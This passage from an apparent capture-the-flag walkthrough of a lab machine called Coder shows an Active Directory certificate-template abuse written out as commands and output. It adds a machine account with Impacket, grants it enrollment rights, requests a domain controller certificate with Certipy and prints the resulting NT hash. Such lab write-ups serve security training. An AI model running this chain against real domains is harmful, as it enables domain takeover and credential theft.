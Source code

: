     
    
    oxdf@hacky$ python addcomputer.py 'coder.htb/s.blade:AmcwNO60Zg3vca3o0HDrTC6D' -method LDAPS -computer-name "0xdf_PC" -computer-pass "0xdf0xdf" -computer-group OU=BuildAgents,OU=DEVELOPMENT,DC=CODER,DC=HTB
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [*] Successfully added machine account 0xdf_PC$ with password 0xdf0xdf.
    

#### Enroll with Template

Now I’ll enroll that computer object in the template:

    
    
    *Evil-WinRM* PS C:\programdata> Set-ADCSTemplateACL -DisplayName oxdf -type allow -identity 'coder\0xdf_PC$' -enroll
    

#### Get Certificate

Now I’ll use [Certipy](https://github.com/ly4k/Certipy) to get the certificate
for the `dc01.coder.htb` machine:

    
    
    oxdf@hacky$ certipy req -u 0xdf_PC\$@dc01.coder.htb -p '0xdf0xdf' -ca CODER-DC01-CA -template oxdf -target dc01.coder.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 21
    [*] Got certificate with DNS Host Name 'DC01.coder.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'dc01.pfx'
    

For the final step to work, I’ll need my clock synced with Coder, running
`sudo rdate -n dc01.coder.htb`. Then use that certificate to authenticate and
get the hash for the legit DC01 machine:

    
    
    oxdf@hacky$ certipy auth -pfx dc01.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: dc01$@coder.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'dc01.ccache'
    [*] Trying to retrieve NT hash for 'dc01$'
    [*] Got hash for 'dc01$@coder.htb': aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94
    

#### Dump AD Hashes

Now that I have the NTLM hash for the DC01 machine account, I’ll ask it to
give me all the hashes for the domain with `secretsdump`:
